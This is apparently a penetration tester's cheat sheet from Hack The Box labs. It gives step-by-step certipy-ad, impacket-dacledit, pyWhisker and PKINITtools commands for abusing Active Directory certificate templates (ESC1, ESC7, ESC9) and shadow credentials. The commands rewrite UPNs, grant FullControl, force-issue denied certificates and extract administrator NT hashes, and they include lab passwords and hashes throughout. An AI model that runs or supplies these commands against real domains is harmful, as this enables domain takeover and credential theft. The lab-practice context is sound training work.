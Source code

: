 # Certipy-ad from Linux

## To Find Vulnerable Certificates (Do this for all users)
```
certipy-ad find -u ryan.cooper -p NuclearMosquito3 -stdout -vulnerable -dc-ip 10.10.11.202
```

## ESC9 Certificate
- Certified HTB Box
- https://medium.com/r3d-buck3t/adcs-attack-series-abusing-esc9-for-privilege-escalation-via-weak-certificate-mapping-d625aceb5942
```
certipy-ad find -target-ip 10.10.11.41 -u ca_operator -hashes b4b86f45c6018f1b664f70805f45d8f2 -vulnerable -stdout      # To find the vuln CA
```
- We will need a user on which we have write permissions like genericwrite, daclwrite or genericall (skip next 2 steps if hash is already known of user we have control over)
```
impacket-dacledit -action write -rights 'FullControl' -principal blwasp -target james -dc-ip 10.129.228.236 lab.local/blwasp:'Password123!'       # Modify the user to have full control over it

certipy-ad shadow auto -u 'blwasp@lab.local' -p 'Password123!' -account james -dc-ip 10.129.228.236    # Retrieve NT hash of that user

certipy-ad account update -u 'blwasp@lab.local' -p 'Password123!' -user james -upn administrator@lab.local -dc-ip 10.129.228.236        # update upn of account we have control over

certipy-ad req -u 'james@lab.local' -hashes 7facdc498ed1680c4fd1448319a8c04f -ca <Certificate authtority name> -template <vulnerable template name> -dc-ip 10.129.228.236     # Request the certificate

certipy-ad account update -u 'blwasp@lab.local' -p 'Password123!' -user james -upn james@lab.local -dc-ip 10.129.228.236        # Revert the changes to avoid broken auth

certipy-ad auth -pfx administrator.pfx -domain lab.local -dc-ip 10.129.228.236      # Get NT hash of administrator
```

## pyWhisker - ESC9 Certificate
- Certified HTB Box
```
python /opt/pywhisker/pywhisker/pywhisker.py -d certified.htb -u judith.mader -p judith09 --target "management_svc" --action "add"      # To get the PFX/PEM files

python /opt/PKINITtools/gettgtpkinit.py -cert-pem oQRzA7zC_cert.pem -key-pem oQRzA7zC_priv.pem certified.htb/management_svc management_svc.ccache       # get key and ccache from cert

export KRB5CCNAME=/home/kali/cysec/practice/HTB/Windows/Certified/management_svc.ccache     # export ccache to be used by kerberos

python /opt/PKINITtools/getnthash.py -key 3888c3ef073a3cc612d461b24b3826f9505106e4b26a3d50ef5a3677b6c87bf1 certified.htb/management_svc     # get NT hash from TGT / ccache
```

## ESC7 Certificate
```
certipy-ad find -target-ip 10.10.11.236 -u raven -p "R4v3nBe5tD3veloP3r\!123" -vulnerable -stdout           # To Find Vuln Templates

certipy-ad ca -ca manager-DC01-CA -dc-ip 10.10.11.236 -u raven -p "R4v3nBe5tD3veloP3r\!123" -add-officer raven      # Add your user as officer if not already

certipy-ad ca -ca manager-DC01-CA -dc-ip 10.10.11.236 -u raven -p "R4v3nBe5tD3veloP3r\!123" -add-manager raven      # Add your user as manager if not already

certipy-ad ca -ca manager-DC01-CA -dc-ip 10.10.11.236 -u raven -p "R4v3nBe5tD3veloP3r\!123" -enable-template "SubCA"        # Enable SubCA template to abuse if not already enabled

certipy-ad req -ca manager-DC01-CA -dc-ip 10.10.11.236 -u raven -p "R4v3nBe5tD3veloP3r\!123" -template SubCA -target dc01.manager.htb -upn administrator@manager.htb        # It will get denied - Note the request ID

certipy-ad ca -ca manager-DC01-CA -dc-ip 10.10.11.236 -u raven -p "R4v3nBe5tD3veloP3r\!123" -target dc01.manager.htb -issue-request 23      # Should go thorugh - if problems, add as officer again

certipy-ad req -ca manager-DC01-CA -dc-ip 10.10.11.236 -u raven -p "R4v3nBe5tD3veloP3r\!123" -template SubCA -target dc01.manager.htb -retrieve 23      # Will save administrator.pfx file

certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.236          # To get TGT and Hash of admin account - run "rdate -n <dc ip>" if clock error
```

## ESC1 Certificate
```
certipy-ad req -u ryan.cooper -p NuclearMosquito3 -template UserAuthentication -ca sequel-DC-CA -dc-ip 10.10.11.202 -target 10.10.11.202 -upn 'administrator@sequel.htb' -sid 'S-1-5-21-4078382237-1492182817-2568127209-500'       # To request pfx as administrator user

certipy-ad auth -pfx 'administrator.pfx' -dc-ip '10.10.11.202'          # Use pfx file to auth as admin and get NTLM hash
```

# GenericWrite, GenericAll, WriteOwner AD Misconfigs
- Certified HTB Box
- Administrator HTB Box